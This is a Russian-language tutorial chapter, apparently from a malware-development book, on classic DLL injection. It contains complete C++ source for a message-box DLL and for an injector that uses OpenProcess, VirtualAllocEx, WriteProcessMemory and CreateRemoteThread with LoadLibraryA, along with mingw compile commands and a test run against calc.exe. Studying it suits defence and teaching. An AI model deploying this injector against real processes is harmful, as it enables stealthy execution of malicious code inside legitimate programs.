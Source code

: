 \newpage
\subsection{5. классическая инъекция DLL в процесс. Простое вредоносное ПО на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![DLL injection](./images/7/2021-09-20_15-01.png){width=400px}    

В этом разделе мы обсудим классическую технику инъекции DLL с использованием API отладки.   

О классической инъекции кода я писал в предыдущем разделе.   

Сначала давайте подготовим нашу DLL.       

Существует небольшая разница между написанием кода на C для `exe` и `DLL`. Основное отличие заключается в том, как вызывается код в модуле или программе. В случае с `exe` должна быть функция `main`, которая вызывается загрузчиком ОС после завершения всех этапов инициализации нового процесса. В этот момент программа начинает выполнение после завершения работы загрузчика ОС.    

С другой стороны, если программа работает как динамическая библиотека (`DLL`), процесс несколько иной. Загрузчик уже создал процесс в памяти, и по некоторым причинам этому процессу может понадобиться загрузить вашу DLL (или любую другую DLL). Это может быть связано с тем, что DLL реализует необходимые функции.   

Таким образом, *exe требует наличия функции main, а DLL требует функции DLLMain*.   
В основном, это самое простое различие.    

Для простоты создадим DLL, которая просто выводит всплывающее сообщение:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Она состоит только из `DllMain`, которая является основной функцией библиотеки DLL. В ней не объявлены экспортируемые функции, что обычно делают легитимные DLL. Код `DllMain` выполняется сразу после загрузки DLL в память процесса.

Это важно в контексте DLL-инъекции, так как мы ищем самый простой способ выполнить код в контексте другого процесса. Именно поэтому большинство вредоносных DLL, которые внедряются в процессы, содержат основную вредоносную логику в `DllMain`. Существуют способы заставить процесс выполнить экспортируемую функцию, но написание кода в `DllMain` обычно является самым простым решением для выполнения кода.

При выполнении в инъектированном процессе должно появиться наше сообщение: "Meow from evil.dll!", что подтвердит успешность инъекции. Теперь мы можем скомпилировать DLL (на машине атакующего):

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](./images/7/2021-09-20_17-01.png){width=400px}    

Затем помещаем DLL в выбранную директорию (на машине жертвы):    
![put DLL](./images/7/2021-09-20_17-09.png){width=400px}

Теперь нам нужен код, который внедрит эту библиотеку в выбранный процесс.

В нашем случае мы говорим о классической DLL-инъекции. Мы выделяем пустой буфер размером не менее длины пути к нашей DLL на диске, а затем "копируем" путь в этот буфер.


```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Как видите, это довольно просто. Это похоже на инъекцию кода, рассмотренную ранее. Единственное отличие в том, что мы добавляем путь к нашей DLL с диска **(1)**, а перед окончательной инъекцией и запуском DLL нам нужен адрес памяти `LoadLibraryA`, так как именно этот вызов API мы будем выполнять в контексте процесса жертвы для загрузки DLL **(2)**:    

![LoadLibraryA](./images/7/2021-09-20_18-11.png){width=400px}

Теперь, когда мы разобрались с кодом инжектора, мы можем его протестировать.
Скомпилируем его:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](./images/7/2021-09-20_18-20.png){width=400px}

Сначала запустим `calc.exe`, а затем выполним нашу программу:

![run injector](./images/7/2021-09-20_18-25.png){width=400px}

Чтобы проверить, действительно ли наша DLL была внедрена в процесс `calc.exe`, можно использовать Process Hacker.

![Process Hacker](./images/7/2021-09-22_09-03.png){width=400px}

В другом разделе памяти можно увидеть:

![Process Hacker 2](./images/7/2021-09-22_09-23.png){width=400px}

Похоже, наша простая логика инъекции сработала! Это самый простой способ внедрения DLL в другой процесс, но во многих случаях он оказывается достаточным и очень полезным.

При желании можно также добавить обфускацию вызовов функций, что будет рассмотрено в следующих разделах.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)    

[исходный код на Github](https://github.com/cocomelonc/2021-09-24-injection-2)

В будущих разделах я попытаюсь разобраться с более продвинутыми методами внедрения кода.